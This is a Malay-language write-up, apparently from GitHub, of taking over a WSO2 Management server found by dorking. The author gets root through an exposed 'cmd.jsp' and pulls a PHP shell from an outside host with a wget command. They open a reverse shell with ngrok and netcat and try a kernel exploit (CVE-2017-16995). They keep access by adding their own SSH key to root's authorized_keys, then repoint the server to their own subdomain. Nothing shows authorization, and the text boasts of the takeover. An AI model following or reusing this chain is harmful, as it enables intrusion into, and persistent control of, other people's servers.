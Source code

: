 # Write-Up [WSO2 Management]

Assalamualaikum, so harini nak buat writeup dari PoC [WSO2 Management] kepada SSH(berserta Privilege Escalation).

Disini saya telah berjaya meng-eksploitasi satu urls dengan menggunakan teknik dorking.

![Screenshot_251](https://user-images.githubusercontent.com/21289340/233838651-b3cd945d-9286-4ab6-b4fe-d4181f012cfc.png)

Setelah saya berjaya meng-eksploitasi urls tersebut, saya terus mencuba mendapatkan user dengan menggunakan `whoami`.
Disini mungkin agak sedikit "LUCKY" apabila output yang tampil adalah "root".

![Screenshot_4](https://user-images.githubusercontent.com/21289340/233838875-c2a7ec20-1738-467d-9932-51794a527bfd.png)

Seperti biasa, saya akan mencuba untuk melakukan pencarian untuk mencari aplikasi yang tersedia seperti php, python, apache2, nginx, perl, wget dan curl.
Sebelumnya php dan apache2 tidak tersedia di dalam server. Kemudian saya cuba untuk menginstall secara direct melalui basic unix command disebabkan privilege yang telah ada iaitu 'root', di bawah ini adalah output ditampilkan setelah saya berjaya menginstall package tersebut.

![Screenshot_253](https://user-images.githubusercontent.com/21289340/233839227-11762819-8976-4c4d-bc08-20a7ba9787bb.png)
![Screenshot_243](https://user-images.githubusercontent.com/21289340/233839297-0b89acab-46b6-4613-87ae-6b9de6d89f8f.png)

Seterusnya, saya ingin membuat back-connect, kerana shell yang tersedia iaitu "cmd.jsp" tidak memuaskan dan mungkin jalan kerja terlalu banyak.
Lalu saya cuba memanggil php shell dengan menggunakan 'wget myshell.my/raw.txt -O corntoll.php'.
Dibawah ini adalah tampilan setelah saya berjaya memanggil file php tersebut.

![Screenshot_21](https://user-images.githubusercontent.com/21289340/233839663-58ee9510-a961-4cc2-bc8c-c2a0578e0724.png)

Dan dibawah ini adalah tampilan setelah saya berjaya mengexecute corntall.php

![Screenshot_254](https://user-images.githubusercontent.com/21289340/233839590-01632a7d-dc0e-4bbd-a97d-d201aaae1a31.png)

Seterusnya, saya terus membuat back-connect/reverse php shell tersebut.

![Screenshot_9](https://user-images.githubusercontent.com/21289340/233839749-e4bccb03-9c77-4ac1-b215-eaf3cec304da.png)

Kemudian, saya listen seperti biasa menggunakan ngrok dan netcat.

![Screenshot_8](https://user-images.githubusercontent.com/21289340/233839800-99cfcaa3-3708-4872-b962-15c25c72f0f4.png)

Lalu, back-connect/reverse telah berjaya dilakukan.

![Screenshot_255](https://user-images.githubusercontent.com/21289340/233839892-6b79cd2f-5895-4893-808f-fcd58adbc4bc.png)

Disini saya memanggil fully interactive TTYs menggunakan Python3. Seterusnya, saya cuba mendapatkan user.

![Screenshot_11](https://user-images.githubusercontent.com/21289340/233840096-c8307a44-ab63-471e-a823-a2ff851d9f58.png)

Saya cuba untuk mendapatkan akses 'ROOT' daripada back-connect dengan cara mengeksploitasi CVE-2017-16995.

![Screenshot_22](https://user-images.githubusercontent.com/21289340/233840258-926a6fc8-2e39-4bc6-b3f3-35aa04bf1623.png)
![Screenshot_258](https://user-images.githubusercontent.com/21289340/233841561-2cd26a37-16fe-4214-bea1-80400f3fa75d.png)

Tetapi ianya gagal setelah saya compile dan cuba untuk meng-eksploitasi kernel tersebut. Mungkin disebabkan version kernel server dan CVE agak berbeza satu angka?

![Screenshot_12](https://user-images.githubusercontent.com/21289340/233840359-1d9558f7-faa7-4a2b-9205-5ea091398a61.png)

Disini saya juga telah mencuba membuat 'chown' dan 'chmod +x' untuk memastikan CVE tersebut mendapatkan akses permission yang lengkap namun gagal.

![Screenshot_13](https://user-images.githubusercontent.com/21289340/233840470-60d57594-b262-499a-9daf-4b53210b1082.png)
![Screenshot_14](https://user-images.githubusercontent.com/21289340/233840477-807c9c8c-6342-4765-a23d-5b8df941dff3.png)

Jadi, saya cuba untuk menggunakan cara lain dimana saya telah mendapat idea untuk menggunakan SSH. Disini saya membuat semakan sama ada aplikasi SSH sedang berjalan ataupun tidak.

![Screenshot_247](https://user-images.githubusercontent.com/21289340/233840715-20e3c028-11ec-4d67-a65f-63c7a5e546b2.png)
![Screenshot_249](https://user-images.githubusercontent.com/21289340/233840646-9005c029-ff75-499b-a8ad-1b72e722f25a.png)

Ianya menunjukkan bahawa SSH tidak active, jadi saya mengaktifkan aplikasi SSH tersebut seperti yang dibawah.

![Screenshot_256](https://user-images.githubusercontent.com/21289340/233840612-69994d7e-1524-4b33-bdbd-02bb88ceef58.png)

Setelah servis SSH aktif, saya terus cuba login tapi gagal dengan error yang ditampilkan dibawah.

![Screenshot_257](https://user-images.githubusercontent.com/21289340/233840786-fc5f1aa2-d87f-46e2-abfd-0d84b9e32757.png)

Jadi, saya cuba untuk generate ssh-key sendiri dan menambah public key tersebut ke file '/root/.ssh/authorized_keys' seperti yang ditampilkan. 

![Screenshot_16](https://user-images.githubusercontent.com/21289340/233840923-3a8981d8-6b47-441f-b3a2-934018ec87d2.png)

Lalu, saya terus cuba untuk login daripada console Powershell.

![Screenshot_17](https://user-images.githubusercontent.com/21289340/233840965-ef26b465-0493-47d0-90eb-e3a0cd466a76.png)

Apabila melihat login SSH telah berjaya, saya terus melakukan semakan user menggunakan 'whoami'.

![Screenshot_18](https://user-images.githubusercontent.com/21289340/233841040-f98a4bd4-a159-462b-bc56-2841b967ef4c.png)

"BOOM!" root. Bukan sahaja akses root, malah saya juga telah mendapatkan akses direct kepada SSH.
Sekarang ianya telah menjadi LABORATORY peribadi saya. Server itu juga telah dipointing kepada sub-domain saya sendiri.

Setelah melakukan penyiasatan dengan lebih lanjut, saya mendapati bahawa server tersebut menggunakan Tomcat Apache, dimana ianya menggunakan Java.
Disitu, 'cmd.jsp' telah di eksploitasi untuk mendapatkan akses SSH root. 

BIG THANKS TO PARI MALAM
